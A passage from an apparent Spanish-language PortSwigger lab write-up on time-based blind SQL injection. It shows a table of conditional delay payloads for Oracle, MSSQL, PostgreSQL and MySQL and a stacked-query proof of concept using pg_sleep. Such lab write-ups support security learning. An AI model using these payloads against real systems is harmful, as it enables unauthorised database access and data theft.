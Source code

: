 bien ese caracter nos dara problemas por lo que debemos URL encodearlo, su equivalente es **%3b**, vamos a colocar una comilla simple antes del **;** que ahora sera **%3b**:

![foto](../Portswigger%20images/SQLi28.png)

no pasa nada, bueno podemos tstear los siguientes payload basados en tiempo con condicional:

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

en este caso funciona el de **postgres** y lo colocaremos despues de **%3b** y al final lo comentamos (**-- -**)

la prueba de concepto seria la siguiente:

```sql
'%3bSELECT pg_sleep(10)-- -
```

![foto](../Portswigger%20images/SQLi29.PNG)

vemos que tardo 10 segundos en responder, por lo que si tiene un **SQLi time based**, ahora para recopilar informacion y aprovecharnos de esta inyeccion debemos usarlo con un condicional:

